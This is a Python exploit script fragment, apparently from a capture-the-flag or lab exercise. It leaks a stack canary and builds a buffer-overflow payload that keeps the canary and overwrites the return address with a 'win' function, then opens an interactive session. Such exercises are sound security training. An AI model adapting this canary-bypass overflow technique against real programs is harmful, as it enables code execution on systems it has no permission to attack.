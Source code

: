 ```
canary = io.recv(8)
print(f"We got the canary: 0x{canary.hex()}")
print(f"We got the canary: 0x{canary}")

le_can = p64(u64(canary), "little")
be_can = p64(u64(canary), "big")
print("____________________________________")
# Create the payload
#
padding = b"B" * BUFF_SIZE
padding_to_ret_addr = STACK_TO_RBP * b"B"
payload: bytes = padding + le_can + padding_to_ret_addr + win_addr
print(f"The payload is {payload.hex()}")
print(f"Now send the payload!!")


# Now send the payload
io.sendline(b"i")
io.sendline(payload + b"\n")
# We need this newline
io.sendline(b"\n")

io.sendline(b"q")


io.interactive()

```

